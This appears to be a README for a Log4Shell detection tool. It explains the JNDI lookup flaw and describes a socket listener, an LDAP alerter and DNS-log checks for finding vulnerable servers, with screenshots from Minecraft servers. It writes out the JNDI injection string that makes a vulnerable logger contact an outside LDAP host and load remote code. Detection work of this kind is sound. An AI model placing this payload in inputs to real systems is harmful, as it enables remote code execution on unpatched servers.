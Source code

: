 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency

- Vulnerable:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Console:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

### DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)

# Disclaimer

This project can only be used for educational purposes. Using this software against target systems without prior permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
